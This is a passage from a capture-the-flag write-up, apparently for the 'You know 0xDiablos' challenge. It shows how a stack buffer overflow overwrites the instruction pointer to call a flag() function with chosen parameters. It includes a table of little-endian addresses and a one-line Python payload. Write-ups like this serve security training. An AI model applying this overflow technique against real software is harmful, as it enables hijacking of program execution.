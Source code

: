 ![Untitled 21.png](You%20know%200xDiablos/assets/Untitled%2021.png)

So we have got all the necessary details to generate a input that overwrites the Instruction Pointer with the call for the `flag()` function. Now we can construct the input:

> [!important]  
> Note: We have to provide the memory address values in the input in Little-Endian Format  

|   |   |   |
|---|---|---|
|**Name/Function**|**Memory Address**|**Little Endian Fromat**|
|`flag()`|`0x080491e2`|`\xe2\x91\x04\x08`|
|`param1`|`0xdeadbeef`|`\xef\xbe\xad\xde`|
|`param2`|`0xc0ded00d`|`\x0d\xd0\xde\xc0`|

```

python3 -c "import sys; sys.stdout.buffer.write(b'A'*188+b'\xe2\x91\x04\x08' + b'PADD' + b'\xef\xbe\xad\xde\x0d\xd0\xde\xc0')"
// Here I have used sys.stdout.buffer.write instead of print because 
// we are giving the input in bytes.
// Here I have used b'PADD' to add padding. Make sure to add this
// \x is used to mention that it is hexadecimal
```

![Untitled 22.png](You%20know%200xDiablos/assets/Untitled%2022.png)